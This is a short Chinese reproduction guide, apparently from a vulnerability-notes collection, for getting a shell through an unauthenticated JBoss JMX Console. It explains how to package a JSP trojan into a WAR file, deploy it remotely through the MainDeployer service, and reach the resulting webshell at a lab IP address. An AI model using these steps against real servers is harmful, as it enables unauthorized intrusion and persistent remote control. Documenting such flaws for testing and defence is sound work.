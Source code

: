 # JBoss JMX Console未授权访问Getshell

### 一、漏洞简介

### 二、漏洞影响

全版本

### 三、复现过程

先输入`http://172.26.1.167:8080/jmx-console/null-console/`进入到页面

先点击`jboss.system`,然后点击`service=MainDeployer`

![](images/15890721039911.png)


创建一个war包

先准备好一个jsp的木马,然后打开cmd创建,输入命令:jar -cvf zfsn.war(你要创建war的名字，可随意填) zfsn. jsp

![](images/15890721115036.png)


我们找到methodIndex为17 or 19的deploy，把远程的war包填入进去，进行远程war包的部署

![](images/15890721179965.png)


部署完成之后,我们的木马地址为`http://172.26.1.167/zfsn/zfsn.jsp`

![](images/15890721262048.png)
